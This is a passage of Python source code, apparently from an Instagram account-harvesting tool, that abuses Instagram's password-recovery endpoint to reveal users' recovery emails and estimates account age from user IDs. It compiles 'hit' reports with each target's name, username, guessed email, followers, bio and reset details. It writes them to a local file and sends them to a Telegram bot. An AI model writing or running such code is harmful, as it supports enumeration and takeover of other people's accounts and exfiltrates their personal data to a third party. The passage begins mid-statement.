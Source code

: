                           '"query":"' + user + '"}'),
            IG_SIG_KEY_VERSION: '4'
        }
        response = requests.post(INSTAGRAM_RECOVERY_URL, headers=headers, data=data).json()
        zrykrporno = response.get('email', 'Reset None')
    except:
        zrykrporno = 'Reset None'
    return zrykrporno

def date(hy):
    try:
        ranges = [
            (1279000, 2010),
            (17750000, 2011),
            (279760000, 2012),
            (900990000, 2013),
            (1629010000, 2014),
            (2500000000, 2015),
            (3713668786, 2016),
            (5699785217, 2017),
            (8597939245, 2018),
            (21254029834, 2019),
        ]
        for upper, year in ranges:
            if hy <= upper:
                return year
        return 2023
    except Exception:
        pass

def InfoAcc(username, domain):
    global total_hits
    account_info = infoinsta.get(username, {})
    user_id = account_info.get('pk')
    full_name = account_info.get('full_name')
    followers = account_info.get('follower_count', 0)
    following = account_info.get('following_count')
    posts = account_info.get('media_count')
    bio = account_info.get('biography')
    meta_status = "Meta Active ✅" if followers > 50 else "Meta Not Active ✖️"
    total_hits += 1
    info_text = f"""
𝐇𝐈𝐓 𝐀𝐂𝐂𝐎𝐔𝐍𝐓 𝐈𝐍𝐒𝐓𝐀𝐆𝐑𝐀𝐌 
═══════════════════
🇮🇳𝐇𝐈𝐓 : {total_hits}
🇮🇳𝐍𝐀𝐌𝐄 : {full_name}
🇮🇳𝐔𝐒𝐄𝐑𝐍𝐀𝐌𝐄 : {username}
🇮🇳𝐄𝐌𝐀𝐈𝐋 : {username}@{domain}
🇮🇳𝐅𝐎𝐋𝐋𝐎𝐖𝐄𝐒 : {followers} 
🇮🇳𝐅𝐎𝐋𝐋𝐎𝐖 : {following} 
🇮🇳𝐏𝐎𝐒𝐓 : {posts} 
🇮🇳𝐃𝐀𝐓𝐄 : 2010-19
🇮🇳𝐁𝐈𝐎 : {bio} 
🇮🇳𝐌𝐄𝐓𝐀 : {meta_status}
🇮🇳𝐁𝐔𝐒𝐈𝐍𝐄𝐒𝐒 : None
🇮🇳𝐑𝐄𝐒𝐓 : {rest(username)}
🇮🇳𝐋𝐈𝐍𝐊 : https://www.instagram.com/{username}
══════════════════
Admin • @sf_army
"""
    with open('ranveer.txt', 'a') as f:
        f.write(info_text + "\n")
    try:
        requests.get(f"https://api.telegram.org/bot{TOKEN}/sendMessage?chat_id={ID}&text={info_text}")